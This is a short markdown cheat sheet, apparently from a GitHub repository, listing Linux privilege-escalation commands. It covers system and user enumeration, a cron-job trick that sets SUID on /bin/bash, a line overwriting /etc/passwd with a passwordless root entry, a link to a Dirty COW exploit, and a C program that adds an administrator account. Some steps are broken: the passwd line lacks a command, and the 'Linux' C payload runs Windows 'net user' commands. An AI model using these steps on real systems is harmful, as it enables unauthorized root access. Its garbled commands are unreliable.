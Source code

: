 # LINUX

## Do this first
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## User editable cronjobs
```
crontab -l
```

## Application based cron jobs
```
ls -all /etc/cron.d
```
## if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## Try dirty cow exploit
```
https://github.com/FireFart/dirtycow/blob/master/dirty.c
```

## SUID checker
```
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
